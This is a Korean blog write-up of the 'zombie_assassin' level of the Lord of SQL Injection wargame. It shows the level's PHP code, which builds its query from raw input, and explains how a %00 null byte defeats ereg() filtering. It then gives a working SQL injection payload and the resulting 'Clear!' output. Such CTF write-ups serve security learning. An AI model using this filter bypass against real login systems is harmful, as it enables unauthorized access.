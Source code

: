 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - zombie_assassin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


지난 문제에 이어 또 다른 `assassin` 문제이다.  

이번에는 `zombie_assassin`이란다.  

이 전 문제의 `assassin`이 죽지도 않고 다시 살아서 돌아왔나보다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='' and pw=''
----------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

이번에도 `'(싱글쿼터)`에만 필터링이 있다.  

그런데 이번에는 `like`이 아니라 다시 `=`이 사용되었고, `preg_match()`가 아니라 `ereg()`가 사용되었다.  

`ereg()`는 이 전에도 한번 언급한 적 있었던 것 같은데, 필터링이 완벽하지 않다.  

대소문자 구분도 못할뿐더라, `%00`으로 `null byte`를 넣어주면 이를 문자열의 끝으로 인식 해 이 뒤의 문자는 검사하지 않는다.  

때문에 나도 `%00`을 사용 해 문제를 풀었다.  

아래와 같이 입력 해 주면 문제를 풀 수 있다.  

```
?id=admin&pw=%00a' or id='admin
```

```php
-------------------------------------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='admin' and pw='a' or id='admin'
-------------------------------------------------------------------------------------------------------------------

ZOMBIE_ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

`ZOMBIE_ASSASSIN Clear!!`
